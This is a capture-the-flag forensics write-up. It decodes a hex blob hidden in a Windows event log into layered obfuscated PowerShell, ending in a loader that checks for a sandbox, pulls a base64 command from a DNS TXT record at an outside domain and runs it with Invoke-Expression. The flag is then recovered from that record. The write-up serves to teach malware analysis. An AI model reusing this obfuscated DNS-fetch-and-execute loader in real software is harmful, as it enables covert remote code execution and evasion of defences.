




# ✅ FORENSICS - Texas Chainsaw Massacre: Tokyo Drift

Writeup by: [@goproslowyo](https://github.com/goproslowyo)

## Tags

- hard

Files:

- [ChainsawMassacre.zip](./ChainsawMassacre.zip)

## Description

Author: @resume

Ugh! One of our users was trying to install a Texas Chainsaw Massacre video game, and installed malware instead.  Our EDR detected a rogue process reading and writing events to the Application event log.  Luckily, it killed the process and everything seems fine, but we don't know what it was doing in the event log.   The EVTX file is attached. Are you able to find anything malicious?  Archive password: `infected`  Download the file(s) below.

## Writeup

We can start by inspecting the list of event logs with Event Viewer. After a few moments of glancing through we can find an install event with event code `1337`:



We can grab the section of the XML output labeled `binary` and decode it from hex to get some obfuscated Powershell.

`2828272E2028205A5436454E763A436F4D537045635B342C32342C272B2732355D2D6A6F696E687836687836292820613654205A543628205365742D7661726961426C65206878364F665368783620687836687836296136542B2028205B537472694E67272B275D205B72454765585D3A3A6D41746368655328206136542029293432315D524168435B2C687836664B496878366543414C5065522D202039335D524168435B2C2938395D524168435B2B38345D524168435B2B39385D524168435B28204563616C506552432D202036335D524168435B2C6878366B776C6878364563616C506552432D20202968783629626878362B68783630596230596878362B6878366E694F6A2D5D35322C6878362B68783634322C6878362B272B27687836345B63656878362B687836706878362B687836534D6F433A566E6878362B687836656B776C2028206878362B6878362E20664B4920292028446E454F5444416878362B687836656878362B687836722E297D2029206878362B272B2768783669696373413A6878362B6878363A5D476E69644F634E6878362B687836652E6878362B687836546878362B6878367865746878362B6878362E6878362B6878364D45547379735B6878362B687836202C5F6B776878362B68272B2778366C20285245446878362B6878364165526D61657274532E6F272B27496878362B68783620746878362B68783643687836272B272B687836656A624F2D5768272B2778362B687836456E207B2048436145526F466878362B687836664B49292073534552704D272B276F43656878362B6878272B2736646878362B6878363A3A6878362B6878365D272B2765644F4D6878362B687836272B276E4F6973534572504D6F636878362B6878362E4E6F49535365726878362B687836704D4F632E6F695B2C20292062272B2730596878362B6878363D3D7744794434702B53272B27732F6C2F6878362B687836692B35477461744A4B79664E6A4F6878362B272B27687836336878362B687836336878362B68783634566878362B687836766A36775279525865317879317042306878362B6878364158564C4D674F77596878362B6878362F2F6878362B687836576F6D6878362B6878367A272B277A556878362B68783674426878362B68783673782F69653072565A376878362B68783678634C696F77574D4745566A6B374A4D6678566D75737A6878362B6878364F5433586B4B753954764F73726878362B68783662626878362B68783663626878362B68783647795A36632F67596878362B6878364E70696C6878362B687836424B3778356878362B687836506C636878362B687836387155794F6842596878362B6878365665636A4E4C573432596A4D38537774416878362B687836615238496878362B6878364F6878362B687836776878362B6878366D6878362B687836366878362B6878365577574E6D577A4377272B276878362B6878365672536878362B6878367237496878362B68783654326878362B6878366B364D6A314D756878362B6878364B6878362B68783654272B272F6F526878362B6878364F35424B4B3852334E68446878362B6878366F6D32416878362B6878364759706878362B68783679616878362B68783654614E673844416E654E6F65536A6878362B68272B27783675676B5442465463435061534830516A704679776878362B272B276878366151796878272B27362B6878364874505547272B276878272B27362B687836444C30424B336878362B68272B2778366C436C724841766878362B68272B27783634474F70564B6878362B687836554E6878362B6878366D477A494465726145766C7063272B276B433945476878362B6878366749616639366A536D53687836272B272B6878364D686878362B687836686878362B68783652664937326878362B6878366F487A556B44735A6F54356878362B6878366E6878362B68783663374D44385733315871272B274B6878362B68783664346462746878362B6878366274683152645369674561456878362B6878364A4E45524D4C557856272B276878362B6878364D4534504A74556878362B6878367453494A555A665A6878362B68783645456878362B687836416878362B6878364A735464445A4E626878362B687836305928676E69525453346878362B68783636657368272B2778362B68783661426D6F52463A3A5D745265766E4F6878362B687836435B5D4D416572747359724F6D654D2E4F692E6D45545359735B20284D6145726878362B687836746878362B687836734574414C6665442E4E4F6878362B687836497353272B276572506D6F272B27632E4F492E6D656878362B68783654735953687836272B272B687836206878362B687836207443656A624F2D57456878362B6878366E2028206878362828286E6F272B2749737365527058272B27652D656B6F766E69206136542C6878362E6878362C6878365269676874546F4C454674687836202920525963666F72456163687B5A54365F207D292B613654205A543628207356206878366F4673687836206878362068783629613654202920272920202D635245704C41434520285B634841725D39302B5B634841725D38342B5B634841725D3534292C5B634841725D3336202D7245506C41636527613654272C5B634841725D333420202D7245506C416365202027525963272C5B634841725D313234202D635245704C4143452020285B634841725D3130342B5B634841725D3132302B5B634841725D3534292C5B634841725D333929207C2E20282024764552626F5345707265466552656E43652E744F537472494E4728295B312C335D2B2778272D4A4F696E272729`

converted from hex:

```powershell
(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. ( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')
```

We can decode these two Powershell chunks to start deobfuscating this:


```powershell
. ( $ENv:CoMSpEc[4,24,25]-join'')( " $( Set-variaBle 'OfS' '')"+ ( [StriNg] [rEGeX]::mAtcheS( " ))421]RAhC[,'fKI'eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,'kwl'EcalPeRC-  )')b'+'0Yb0Y'+'niOj-]52,'+'42,'+'4[ce'+'p'+'SMoC:Vn'+'ekwl ( '+'. fKI ) (DnEOTDA'+'e'+'r.)} ) '+'iicsA:'+':]GnidOcN'+'e.'+'T'+'xet'+'.'+'METsys['+' ,_kw'+'l (RED'+'AeRmaertS.oI'+' t'+'C'+'ejbO-W'+'En { HCaERoF'+'fKI) sSERpMoCe'+'d'+'::'+']edOM'+'nOisSErPMoc'+'.NoISSer'+'pMOc.oi[, ) b0Y'+'==wDyD4p+Ss/l/'+'i+5GtatJKyfNjO'+'3'+'3'+'4V'+'vj6wRyRXe1xy1pB0'+'AXVLMgOwY'+'//'+'Wom'+'zzU'+'tB'+'sx/ie0rVZ7'+'xcLiowWMGEVjk7JMfxVmusz'+'OT3XkKu9TvOsr'+'bb'+'cb'+'GyZ6c/gY'+'Npil'+'BK7x5'+'Plc'+'8qUyOhBY'+'VecjNLW42YjM8SwtA'+'aR8I'+'O'+'w'+'m'+'6'+'UwWNmWzCw'+'VrS'+'r7I'+'T2'+'k6Mj1Mu'+'K'+'T/oR'+'O5BKK8R3NhD'+'om2A'+'GYp'+'ya'+'TaNg8DAneNoeSj'+'ugkTBFTcCPaSH0QjpFyw'+'aQy'+'HtPUG'+'DL0BK3'+'lClrHAv'+'4GOpVK'+'UN'+'mGzIDeraEvlpckC9EG'+'gIaf96jSmS'+'Mh'+'h'+'RfI72'+'oHzUkDsZoT5'+'n'+'c7MD8W31XqK'+'d4dbt'+'bth1RdSigEaE'+'JNERMLUxV'+'ME4PJtU'+'tSIJUZfZ'+'EE'+'A'+'JsTdDZNb'+'0Y(gniRTS4'+'6es'+'aBmoRF::]tRevnO'+'C[]MAertsYrOmeM.Oi.mETSYs[ (MaEr'+'t'+'sEtALfeD.NO'+'IsSerPmoc.OI.me'+'TsYS'+' '+' tCejbO-WE'+'n ( '(((noIsseRpXe-ekovni ",'.','RightToLEFt' ) |forEach{$_ })+" $( sV 'oFs' ' ')" ) |. iex
```





We can continue down our deobfuscation journey until we get to some base64 that's also compressed.

```powershell
( nEW-ObjeCt  SYsTem.IO.comPreSsION.DefLAtEstrEaM( [sYSTEm.iO.MemOrYstreAM][COnveRt]::FRomBase64STRing('NZDdTsJAEEZfZUJIStUtJP4EMVxULMRENJEaEgiSdR1htbtbd4dKqX13W8DM7cn5ToZsDkUzHo27IfRhhMSmSj69faIgGE9CkcplvEareDIzGmNUKVpOG4vAHrlCl3KB0LDGUPtHyQawyFpjQ0HSaPCcTFBTkgujSeoNenAD8gNaTaypYGA2moDhN3R8KKB5ORo/TKuM1jM6k2TI7rSrVwCzWmNWwU6mwOI8RaAtwS8MjY24WLNjceVYBhOyUq8clP5x7KBlipNYg/c6ZyGbcbbrsOvT9uKkX3TOzsumVxfMJ7kjVEGMWwoiLcx7ZVr0ei/xsBtUzzmoW//YwOgMLVXA0Bp1yx1eXRyRw6jvV433OjNfyKJtatG5+i/l/sS+p4DyDw==' ) ,[io.cOMpreSSIoN.coMPrESsiOnMOde]::deCoMpRESs )|FoREaCH { nEW-ObjeCt Io.StreamReADER( $_, [sysTEM.texT.eNcOdinG]::Ascii ) }).reADTOEnD( ) | . ( $enV:CoMSpec[4,24,25]-jOin'')
```

We can quickly decode and decompress it [with this CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',false,false)Raw_Inflate(0,0,'Adaptive',false,false)&input=TlpEZFRzSkFFRVpmWlVKSVN0VXRKUDRFTVZ4VUxNUkVOSkVhRWdpU2RSMWh0YnRiZDRkS3FYMTNXOERNN2NuNVRvWnNEa1V6SG8yN0lmUmhoTVNtU2o2OWZhSWdHRTlDa2NwbHZFYXJlREl6R21OVUtWcE9HNHZBSHJsQ2wzS0IwTERHVVB0SHlRYXd5RnBqUTBIU2FQQ2NURkJUa2d1alNlb05lbkFEOGdOYVRheXBZR0EybW9EaE4zUjhLS0I1T1JvL1RLdU0xak02azJUSTdyU3JWd0N6V21OV3dVNm13T0k4UmFBdHdTOE1qWTI0V0xOamNlVllCaE95VXE4Y2xQNXg3S0JsaXBOWWcvYzZaeUdiY2JicnNPdlQ5dUtrWDNUT3pzdW1WeGZNSjdralZFR01Xd29pTGN4N1pWcjBlaS94c0J0VXp6bW9XLy9Zd09nTUxWWEEwQnAxeXgxZVhSeVJ3Nmp2VjQzM09qTmZ5S0p0YXRHNStpL2wvc1MrcDREeUR3PT0).

Oh, surprise surpise! More powershell!

```powershell
try {$TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue' ; if ($error.Count -eq 0) { $5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { $_.Strings }); if ($5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Invoke-Expression } } } catch { }
```

Looking quickly we can see it's doing a DNS lookup for a TXT record for `eventlog.zip` so let's do the same.



```shell
$ dig eventlog.zip txt
eventlog.zip. 58m54s TXT "U3RhcnQtUHJvY2VzcyAiaHR0cHM6Ly95b3V0dS5iZS81NjFubmQ5RWJzcz90PTE2IgojZmxhZ3s0MDk1MzczNDdjMmZhZTAxZWY5ODI2YzI1MDZhYzY2MH0jCg=="
$ echo -n 'U3RhcnQtUHJvY2VzcyAiaHR0cHM6Ly95b3V0dS5iZS81NjFubmQ5RWJzcz90PTE2IgojZmxhZ3s0MDk1MzczNDdjMmZhZTAxZWY5ODI2YzI1MDZhYzY2MH0jCg=='|base64 -d
#flag{409537347c2fae01ef9826c2506ac660}#
```

`flag{409537347c2fae01ef9826c2506ac660}`
